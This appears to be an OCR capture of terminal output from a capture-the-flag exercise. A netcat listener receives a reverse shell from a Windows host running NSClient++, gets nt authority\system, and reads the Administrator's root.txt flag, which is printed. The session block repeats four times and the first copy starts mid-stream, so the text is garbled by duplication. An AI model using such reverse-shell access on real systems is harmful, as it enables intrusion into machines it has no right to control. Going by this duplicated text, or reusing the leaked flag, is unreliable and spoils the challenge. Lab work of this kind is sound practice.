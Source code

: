 ```bash
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
whoami
nt authority\system

C:\Program Files\NSClient++>type "C:\Users\Administrator\Desktop\root.txt"
type "C:\Users\Administrator\Desktop\root.txt"
d3d0930a47b35c8ae6ff3689411bf7ad

C:\Program Files\NSClient++>
~$ nc -lvp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.184.
Ncat: Connection from 10.10.10.184:50184.
Microsoft Windows &#91;Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
whoami
nt authority\system

C:\Program Files\NSClient++>type "C:\Users\Administrator\Desktop\root.txt"
type "C:\Users\Administrator\Desktop\root.txt"
d3d0930a47b35c8ae6ff3689411bf7ad

C:\Program Files\NSClient++>
~$ nc -lvp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.184.
Ncat: Connection from 10.10.10.184:50184.
Microsoft Windows &#91;Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
whoami
nt authority\system

C:\Program Files\NSClient++>type "C:\Users\Administrator\Desktop\root.txt"
type "C:\Users\Administrator\Desktop\root.txt"
d3d0930a47b35c8ae6ff3689411bf7ad

C:\Program Files\NSClient++>
~$ nc -lvp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.184.
Ncat: Connection from 10.10.10.184:50184.
Microsoft Windows &#91;Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
whoami
nt authority\system

C:\Program Files\NSClient++>type "C:\Users\Administrator\Desktop\root.txt"
type "C:\Users\Administrator\Desktop\root.txt"
d3d0930a47b35c8ae6ff3689411bf7ad
```